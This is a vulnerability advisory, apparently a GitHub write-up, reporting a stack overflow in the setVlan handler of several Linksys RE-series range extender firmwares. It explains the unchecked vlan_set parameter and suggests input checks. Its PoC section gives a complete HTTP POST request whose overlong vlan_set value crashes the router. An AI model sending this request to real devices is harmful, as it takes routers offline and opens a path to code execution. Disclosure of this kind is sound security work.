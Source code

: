 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an stack overflow vulnerability in Linksys router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `mod_form.so` binary:

In the router's `setVlan` function, `vlan_set` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `vlan_set` to execute arbitrary code.

As you can see here, the input has not been checked. The parameter `vlan_set` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"><img src="./images/1.png" style="zoom:60%;" /></div>

**Supplement**

In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `vlan_set` as **aaaaa......** , and the router will crash, such as:

```http
POST /goform/setVlan HTTP/1.1
Host: 192.168.1.6
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 209
Origin: http://192.168.1.6
Connection: close
Referer: http://192.168.1.6/wireless/wireless_basic.shtml
Cookie: session_id=MmFhNylnGhhRaIM5TgVe5rp8EhaV8hRS
Upgrade-Insecure-Requests: 1

vlan_set=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```



## Result

The target router crashes and cannot provide services correctly and persistently.

